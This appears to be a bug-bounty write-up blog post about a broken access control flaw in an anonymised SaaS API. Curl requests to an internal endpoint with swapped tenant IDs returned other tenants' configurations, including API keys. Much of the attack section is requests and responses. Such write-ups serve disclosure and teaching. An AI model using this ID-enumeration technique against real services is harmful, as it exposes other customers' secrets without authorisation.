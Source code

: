 ```yaml
---
layout: post
title: " $2K API Access Control Bypass "
date: 2025-04-15
categories: bug-bounty
tags: [api, bac, bug-bounty, cybersecurity]
---
```



 After  weeks of banging my head against a SaaS platform’s API, I finally cracked a gnarly broken access control bug that let me escalate from a nobody user to reading *admin-only* tenant configs. It was a brutal hunt—failed attempts, sketchy workarounds, and pure stubbornness got me there. Target’s staying anonymous (private program), but here’s the raw, unfiltered story for you to chew on.


The target was a SaaS app for multi-tenant cloud management—think teams sharing dashboards for cloud resources. Their bug bounty scope listed a REST API, and I figured access control was my best shot. Spoiler: I was right, but it wasn’t easy. The vuln let any authenticated user query admin-only tenant configuration data (like API keys and compliance settings) by abusing a hidden endpoint with a tricky ID manipulation. Took me forever to spot, but it was worth it.



I started with a trial account (role: `basic_user`, tenant ID: `t-987654`). The app’s frontend was locked down tight—no obvious IDORs in the UI. DevTools showed API calls to `/v2/resources/` with my tenant ID, but nothing juicy. The API docs (buried in a help page) mentioned roles (`basic_user`, `tenant_admin`, `global_admin`), so I figured BAC was likely between tenants or roles.

First, I tried the obvious: swapping `tenant_id` in requests like `/v2/resources/t-987654`. Got `403 Forbidden` every time unless it was *my* tenant. Smart move, I thought—they’re checking ownership. I sniffed around for other endpoints using dirb and a wordlist tailored for SaaS APIs (`internal`, `admin`, `config`, etc.). Nada. Hours wasted.

Then I got desperate and proxied everything through Burp. One call caught my eye—a POST to `/internal/tenants/t-987654/config` when I updated my profile. It was weird; why was a user hitting an `internal` endpoint? The request looked like:

```http
POST /internal/tenants/t-987654/config HTTP/1.1
Host: api.cloudapp.com
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiMTIzNDUiLCJyb2xlIjoiYmFzaWNfdXNlciIsInRlbmFudCI6InQtOTg3NjU0In0.signature
Content-Type: application/json

{"display_name": "My Tenant"}

```

Response was a boring 200 OK. I tried changing tenant_id to t-123456 (a random guess):
http

```http
POST /internal/tenants/t-123456/config HTTP/1.1
Host: api.cloudapp.com
Authorization: Bearer my_jwt_token
Content-Type: application/json

{"display_name": "Test"}
```
Got 403 Forbidden. Looked like they were validating tenant_id against my JWT’s tenant claim. I was stuck.

I wasn’t giving up. I started decoding JWTs to see what I could mess with. The token had:

```json

{
  "user_id": "12345",
  "role": "basic_user",
  "tenant": "t-987654",
  "exp": 1746988800
}
```

No way to forge a tenant_admin role without cracking the signing key (HS256, no luck brute-forcing). But I noticed the /internal/tenants/ endpoint had a GET method in the API docs, marked “admin only.” I tried:
bash

```bash
curl -H "Authorization: Bearer my_jwt_token" \
     https://api.cloudapp.com/internal/tenants/t-987654/config
```

Returned my tenant’s config:

```json

{
  "tenant_id": "t-987654",
  "name": "My Tenant",
  "api_key": "sk_abc123xyz",
  "compliance": {
    "soc2_enabled": false
  }
}
```

Okay, that’s sensitive—an API key for my tenant. I tried another tenant_id (t-123456):
bash

```bash
curl -H "Authorization: Bearer my_jwt_token" \
     https://api.cloudapp.com/internal/tenants/t-123456/config
```

Expected a 403. Instead, I got:

```json

{
  "tenant_id": "t-123456",
  "name": "BigCorp Inc",
  "api_key": "sk_def456uvw",
  "compliance": {
    "soc2_enabled": true,
    "audit_log_retention": 90
  }
}
```

My jaw dropped. A basic_user could read any tenant’s config, including live API keys. But it was inconsistent—some IDs gave 404, others 403. I realized the endpoint only worked for tenants with global_admin-created configs (a quirk I stumbled on later).

The trick was realizing the /internal/ path bypassed the usual tenant_id checks for GET requests. POSTs were locked down, but GETs slipped through because of a logic flaw: the backend assumed any authenticated user could read configs if the tenant existed. No role validation for global_admin perms

* Biggest win? Not quitting. This bug hid behind layers of “looks secure” nonsense. If I hadn’t rechecked the docs for the 10th time, I’d have missed it.




